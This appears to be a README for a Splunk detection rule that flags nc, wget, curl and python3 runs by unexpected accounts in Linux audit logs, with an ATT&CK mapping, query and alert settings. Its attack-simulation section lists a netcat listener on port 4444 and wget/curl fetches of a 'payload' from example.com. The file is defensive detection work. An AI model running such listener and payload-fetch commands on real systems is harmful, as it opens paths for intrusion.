

# Detection: Suspicious Process Execution

## Overview

Detects execution of tools commonly used for reverse shells, payload
staging, or lateral movement (`nc`, `wget`, `curl`, `python3`) by an
interactively-authenticated user.

| Field | Value |
|---|---|
| Index | `linux_audit` |
| Sourcetype | `linux_audit` |
| Log source | `/var/log/audit/audit.log` |
| auditd key | `process_execution` |

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Maps to |
|---|---|---|---|
| Execution | Command and Scripting Interpreter: Unix Shell | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | `bash`, `nc` |
| Command and Control | Ingress Tool Transfer | [T1105](https://attack.mitre.org/techniques/T1105/) | `wget`, `curl` |

## Attack Simulation

**Important:** SSH in **directly as `testuser`** — do not use `su - testuser`.
`su` preserves the original session's `auid`, so auditd attributes the
activity to the wrong account.

```bash
nc -lvp 4444
wget http://example.com/payload
curl http://example.com/payload
python3 -c "..."
```

## Detection Logic

**Hypothesis:** Execution of these binaries by non-admin/unexpected accounts
is a strong signal of post-exploitation activity.

```spl
index=linux_audit sourcetype=linux_audit key=process_execution
| rex field=_raw "exe=\"(?<process>[^\"]+)\""
| where match(process, "nc|wget|curl|python|bash")
| stats count by host, process, auid
```

**Trigger threshold:** Any result from an unexpected account.

## Alert Configuration

| Field | Value |
|---|---|
| Alert Type | Scheduled |
| Schedule | Every minute, search over Last 1 minute |
| Trigger when | Number of Results > 0 |
| Severity | High |
| Action | Add to Triggered Alerts |

## Screenshot



## Notes

- `testuser` UID is **1002** (not 1001 — 1000 is the primary admin account).
- This rule (`execve` on every process launch) is noisy by design — expect
  high event volume from normal system activity; the `where match(...)`
  filter narrows to the tools of interest.
